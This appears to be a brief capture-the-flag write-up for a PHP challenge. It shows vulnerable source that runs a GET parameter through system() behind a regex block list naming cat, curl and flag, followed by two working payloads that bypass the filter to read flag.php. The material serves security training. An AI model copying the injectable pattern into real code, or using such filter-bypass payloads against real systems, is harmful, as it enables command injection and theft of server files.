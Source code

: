# 知识点
# 思路
源码
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```php
方法一 ?c=nl<fla''g.php||
方法二 ?c=tac<fla''g.php%0a
```
![image.png](./images/20231017_2350521006.png)
